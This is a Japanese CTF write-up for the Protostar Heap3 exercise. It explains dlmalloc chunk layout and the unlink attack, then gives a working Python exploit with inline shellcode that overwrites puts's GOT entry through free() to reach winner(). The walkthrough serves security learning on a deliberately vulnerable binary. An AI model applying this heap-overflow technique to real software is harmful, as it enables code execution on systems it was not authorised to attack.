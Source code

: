```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/endless/exploit-exercises-protostar-heap3/
  - /blog/2016/02/04/exploit-exercises-protostar-heap3/
date: 2016-02-04T05:14:02+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "dlmalloc", "heap-metadata" ]
---
```


# Exploit Exercises Protostar Heap3

前3問はよかったのに、これは急に難易度上がりすぎだし不親切なのよくないと思う。

つまりほぼ完全に他の人の解説に頼った。ある程度の理解と成長はしたはずなので許してください。

## [Protostar Heap3](https://exploit-exercises.com/protostar/heap3/)

### 問題

-   関数`winner`を呼ぶのが目標。
-   `malloc`や`free`がstaticにlinkされている。
    -   dlmallocであるとのこと。
    -   `free`のgotをoverwriteできない。
    -   `puts`のgotは存在する。
-   heapのアドレスは固定。
    -   これは与えられたvmの環境によるもの。
    -   手元で試す際はgdbの上で動けば成功としてよい。

### 解説

攻撃対象のコードは以下である。

``` c
int main(int argc, char **argv)
{
    char *a, *b, *c;

    a = malloc(32);
    b = malloc(32);
    c = malloc(32);

    strcpy(a, argv[1]);
    strcpy(b, argv[2]);
    strcpy(c, argv[3]);

    free(c);
    free(b);
    free(a);

    printf("dynamite failed?\n");
}
```

攻撃の流れは、`strcpy`でのbuffer overflowを使ってmallocの使うmetadataを書き換え、`free`の内部で`puts`のgotを書き換えさせる。`printf`は最適化により`puts`を呼び出す。

#### malloc[^1]

mallocは領域を効率良く確保/開放するためのライブラリである。
osに毎回領域を要求すると遅くなるので、まとまった量を確保し、これをchunkという単位に分けてユーザに渡す。

dlmallocはosから直接確保した領域をarenaとして管理する。
arenaはdlmallocが静的領域に持つ根から繋がる単方向連結リストとして保持される。
ただし今回は単一のarenaのみ考えればよい。

各arenaはそれに属する(未使用の)chunkの情報を持つ。
小さいchunkは単方向連結リスト(`fastbins`)で、大きめのchunkは双方向連結リスト(`bins`)で持つ。
このリストはそれぞれに関してもさらにchunkの大きさ別に複数本用意され、要求された大きさにちょうど合う未使用chunkを効率よく探せるようになっている。
小さいchunkを単方向に連結するのは時間/空間のoverheadを減らすためで、大きめのchunkを双方向に連結するのは前後の未使用chunkとの併合を効率良く行うため。

使用中のchunkのアドレスはユーザが保持しfreeの際渡されてくるので、arenaでは保持しない。
かなり大きいchunkはmmap systemcallで直接確保しfreeの際は即時munmapされるので、未使用の状態はない。

chunkが持つ情報は、そのchunkの大きさと状態によって変わる。
どのchunkも自分自身のchunkの大きさ(`head`, `size`)は保持している。
また、chunkの大きさは4の倍数であるので、このsizeの下位2bitに、そのchunkがmmapで確保されたかどうか(`IS_MMAPPED = 0x2`)、そのchunkの(空間上で)直前のchunkが使用中であるか(`PREV_INUSE = 0x1`)の情報が詰め込まれる。
chunkが未使用であれば、その未使用である領域を使って連結リストにおける前後のchunkのアドレスを持つ(`fd`, `bk`)。
さらに、大きめのchunkでありかつ(空間上で)直前のchunkが未使用であれば、その未使用の領域を使って直前のchunkの大きさ(`prev_foot` or `prev_size`)も保持する。
これにより、大きめのchunkはarenaからポインタを用いて繋がる連結リストに加え、空間上で前後のchunkとのoffsetによる別の連結リストの要素であるともいえる。

開放の処理に関して、小さいchunkであれば前後の領域との併合は試さず未使用chunkのリストにそのまま追加する。
大きめのchunkであれば前後の領域との併合を試す。
(空間上で)直前のchunkが使用中でないようなchunkを開放する際、これらを併合する。
直前のchunkは双方向連結リストの要素であるが、大きさが増加するため、元々のリストからは外され、再度別のリストに追加される。
直後のchunkに関しても同様に併合を試す。ただし直後のchunkが使用中であるかの情報は、直後のchunkの直後のchunkの直前のchunkが使用中であるかどうか、という形で取得される。

#### 攻撃

攻撃に関して、chunkの併合が発生した際のリストからの削除を用いることができる。
chunkのmetadataは以下のようになっている。

``` c
// ftp://g.oswego.edu/pub/misc/malloc-2.8.6.c L2182
struct malloc_chunk {
    size_t               prev_foot;  /* Size of previous chunk (if free).  */
    size_t               head;       /* Size and inuse bits. */
    struct malloc_chunk* fd;         /* double links -- used only if free. */
    struct malloc_chunk* bk;
};
```

chunk `p`を開放する際(ただしこれは`free(p+8)`として呼び出される)、直前のchunk `q = p - p->prev_foot`をそのリストから外す。つまり、

``` c
struct malloc_chunk *FD = q->fd;
struct malloc_chunk *BK = q->bk;
FD->bk = BK;  // *(FD + 0xc) = BK;
BK->fd = FD;  // *(BK + 0x8) = FD;
```

という処理が発生する。
heap上overflowが可能であれば`FD`と`BK`を操作できるので、好きなアドレスへの書き込みが可能となる。

ただし書き込みは複数回発生する。1回の併合に関して`FD->bk`と`BK->fd`で2回であり、もし前後のchunkの両方と併合するのであれば合計4回となる。
また、`BK`の値を書き込もうとすれば`BK->fd`を破壊することになるため、`BK`は書き込み可能な領域近くである必要がある。

よって攻撃の際におさえておくべき点は、

-   chunkの大きさを前後との併合が発生する大きさに変えること
-   書き込むアドレスは書き込み可能なアドレスにすること
-   直後のchunkの状態を使用中にしておくこと

の3点であろう。

あとはこれをやる。
[exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3) を参照。


### 実装

``` python
#!/usr/bin/env python3
import struct
p32 = lambda x: struct.pack('<I', x % (1<<32))
puts_got = 0x804b128 # $ objdump -R heap3 | grep '\<puts\>'
winner   = 0x8048864 # $ readelf -s heap3 | grep '\<winner\>'
heap     = 0x804c000 # gotten by gdb, but ...
a = b''.join([ # 32byte
    b'AAAA', # heap + 0x8, write here to puts's got
    b'\xeb\x06' + b'AA', # the `call <puts>' jumps to here, shellcode: jmp $eip+6
    b'AAAA', # BK->fd, written as a side effect
    b'\x68\x64\x88\x04', # shellcode: push 0x08048864 <winner>
    b'\x08' + b'\xc3' + b'AA', # shellcode: ret
    b'AAAA',
    b'AAAA',
    b'AAAA',
    ])
b = b''.join([ # 40byte (32byte + 8byte overflow)
    b'BBBB',
    b'BBBB',
    b'BBBB',     # virtual next next chunk addr
    p32(-8 + 1), # virtual next next chunk size and PREV_INUSE
    p32(-4), # virtual next chunk addr
    p32(-8), # virtual next chunk size
    b'BBBB',
    b'BBBB',
    p32(-4),   # prev_size
    p32(-16)]) # size
c = b''.join([ # 12byte
    b'CCCC',
    p32(puts_got - 0xc),  # virtual prev chunk fd
    p32(heap     + 0x8)]) # virtual prev chunk bk
shrepr = lambda x: '$' + repr(x)[1:]
print('$', './heap3', shrepr(a), shrepr(b), shrepr(c))
```

``` sh
$ ./heap3 $'AAAA\xeb\x06AAAAAAhd\x88\x04\x08\xc3AAAAAAAAAAAAAA' $'BBBBBBBBBBBB\xf9\xff\xff\xff\xfc\xff\xff\xff\xf8\xff\xff\xffBBBBBBBB\xfc\xff\xff\xff\xf0\xff\xff\xff' $'CCCC\x1c\xb1\x04\x08\x08\xc0\x04\x08'
that wasn't too bad now, was it? @ 1454528650
```

### 参考

-   [exploit exercises - protostar - heap levels \| research \| sprawl](https://thesprawl.org/research/exploit-exercises-protostar-heap/#heap-3)
    -   大半をこれに頼った
-   [malloc(3)のメモリ管理構造 \| VA Linux Systems Japan株式会社](http://www.valinux.co.jp/technologylibrary/document/linux/malloc0001/)
    -   これもけっこう役に立った
-   [ハンド (逆) アセンブルのための x86 ニーモニックの覚え方 - @a4lg のそろそろ技術的日記](http://d.hatena.ne.jp/a4lg/20120225/1330180431)
    -   shellcodeを読むのに
-   <ftp://g.oswego.edu/pub/misc>
-   [Beyond Zero-day Attacks（3）：ヒープに対する攻撃とその対策 (1/3) - ＠IT](http://www.atmarkit.co.jp/ait/articles/1408/28/news010.html)
-   [npca2014年部誌 glibcにおいてheap overflowによる任意のアドレス書き換えは可能か? - potetisensei](http://www.npca.jp/works/magazine/2014_10/)
-   [Glibc malloc internal](http://www.slideshare.net/kosaki55tea/glibc-malloc)

<hr>

-   Fri Mar 18 18:47:27 JST 2016
    -   別の問題のため参照したついでにいくらか修正

